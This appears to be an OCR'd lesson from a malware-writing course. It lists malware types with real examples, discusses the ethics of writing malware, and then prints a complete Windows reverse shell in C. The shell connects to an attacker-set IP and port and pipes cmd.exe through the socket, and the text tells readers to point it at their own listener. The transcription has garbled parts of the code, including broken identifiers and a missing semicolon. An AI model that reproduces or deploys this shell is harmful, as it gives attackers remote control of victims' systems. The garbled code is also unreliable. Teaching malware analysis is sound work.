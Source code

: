 
![](https://i.imgur.com/gXusNNR.png)
## What the F&CK is Malware?

Malware is actually an abbreviation for **malicious software**. It is any software that is intentionally designed to cause damage, exploit, or disrupt systems, networks and/or devices. Malware can take a lot of different forms and serve a variety of purposes such as: stealing data, hijacking system resources, or enabling unauthorized access. Typically, malware is installed on the system secretly and if often delivered through deceptive techniques, like phishing, infected software, or exploits.
## Types of Malware

There are a lot of different types of malwares, we created a table of as many as we could think of. We will not be going into all these types of malware, but it is good to know the different types. It's worth noting that there are multiple different types of malware that are not on this list. We are sticking with the ones that are well known and do not have a controversy surrounding them.

| Type          | Description                                                                                                                                      | Examples                |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------- |
| `Worms`       | Spreads independently without the need of a host file or user interaction                                                                        | `Wannacry`              |
| `Trojans`     | Malicious software designed as legitimate programs to trick users into running it.                                                               | `Zbot`                  |
| `Ransomware`  | Encrypts files or locks users out of the system and demands a ransom to access the files/systems                                                 | `Lockbit`               |
| `Rootkits`    | A type of malware that provides admin access to a system while hiding it's presence                                                              | `2005 Sony BMG Rootkit` |
| `Bootkits`    | Type of rootkit that infects the MBR (Master Boot Record) this allows the malware to be loaded before the OS starts                              | `Mebromi`               |
| `Botnets`     | A collection of compromised computers/devices (zombies) remotely controller by an attack. Typically used for DDOS attacks.                       | `Mirai`                 |
| `Keyloggers`  | Records all the keystrokes that a user makes                                                                                                     | `SpyEye`                |
| `Stealers`    | Focuses on stealing certain information off a user's system, such as passwords, credit cards, personal information                               | `Emotet`                |
| `Polymorphic` | Changes its code or appearance after spreading, preventing detection from signature based detectors.                                             | `Storm worm`            |
| `Metamorphic` | Like polymorphic but changes the entire code base each iteration.                                                                                | `Simile`                |
| `RAT`         | Remote Access Trojan, or remote access tool. Used to provide the attacker with complete control of the system. Typically comes with a keylogger. | `DarkComet`             |
| `Logic Bomb`  | Malicious code that lies dormant until triggered with a specific condition                                                                       | `Farewell Dossier`      |
| `Data wipers` | Arguably the most destructive on the list. Is designed to completely destroy/corrupt the system                                                  | `Shamoon`               |
| `Dropper`     | Typically a small initial stage of a larger attack. Designed to covertly install other malware onto the system                                   | `Dridex`                |
## Why Write Malware?

It is important that I cannot legally tell you to go write malware and encourage you to deploy it and watch what it does. Writing malware comes with significant ethical and legal considerations. Being curios and wanting to learn more is natural and is why you are here reading this, but it is essential to channel that curiosity responsibly in a way that does not infringe on other people or cause them harm.

Your pursuit of knowledge is admirable, and you should never apologize for wanting to fully understand the information you encounter. When approached correctly, studying and writing malware will provide valuable insights and foster immense growth. It is crucial to do this in a controlled environment. 

If you get anything from this course, let it be this: curiosity is not a crime, but acing irresponsibly has serious consequences. There are several ethical reasons people learn to write malware:

- Understanding how it works
	- Providing a deeper technical knowledge of the inner workings of malware
	- Provides a better understanding of how to reverse engineer malware successfully
- Building better defenses
	- By understanding the techniques used by attackers, defenders can better defend.
	- Can provide better insight of how an attack occurred and provide easier patches
- Research and Development
	- Test defenses by researching new types of attacks
	- Provide better threat hunting by knowing what the malware does.

---
## Payload Deployment

Payloads are usually small pieces of code that execute specific actions once deployed on the target. They are usually (ethically) used in the context of penetration testing, or malware research.

- Reverse Shell
	- provides remote access to a system
- Data Exfil
	- extract information from the target
- Keylogging
	- record every keystroke done by the user of the target system
- System Manipulation
	- alter system settings, change/delete files

In this example we will be writing a basic reverse shell in C. This shell will connect to the system and provide us remote access to it:

```C
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

int main() {
  // init winsock
  WSADATA wsa;
  SOCKET s;
  struct sockaddr_in server;

  // set the variables to use IE: attacker IP to connect to and
  // port to connect to
  char *server_ip = "127.0.0.1";
  int server_port = 4444;

  // init Winsock
  WSAStartup(MAKEWORD(2,2), &wsa);

  // create the socket
  s = socket(AF_INET, SOCK_STREAM, 0);
  if (s == INVALID_SOCKET) {
      WSACleanup();
      return 1;
  }

  // setup the server address struct
  server.sin_addr.s_addr = inet_addr(server_ip);
  server.sin_family = AF_INET;
  server.sin_port = htons(server_port);

  // duplicate socket to stdin, stdout, stderr
  if (connect(s, (struct sockaddr *)&server, sizeof(server)) < 0) {   close socket(s);
    WSACleanup();
    return 1;
}
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  memset (&si, 0, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = (STARTF_USESTDHANDLES | START F_USESWHOWINDOW);si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE) s;

  // spawn the shell
  if (CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi) == 0) {
    closesocket(s);
    WSACleanup();
    return 1;
  }

  // wait for single object
  WaitForSingleObject(pi.hProcess, INFINITE);

  // cleanup
  closesocket(s);
  WSACleanup()
  return 0;
}
```
### Code Breakdown

- Winsock
	- Windows uses Winsock for networking, to use networking on Windows you will need to initialize Winsock.
- Socket Creation
	- A socket is created using the `socket` function. Specifying that it will use an IPv4 socket (`AF_NET`) and use TCP (`SOCK_STREAM`).
- Connection
	- The `connect` function is used to connect to the provided IP address. You will need to replace the IP and port to whatever is listening on your listener. 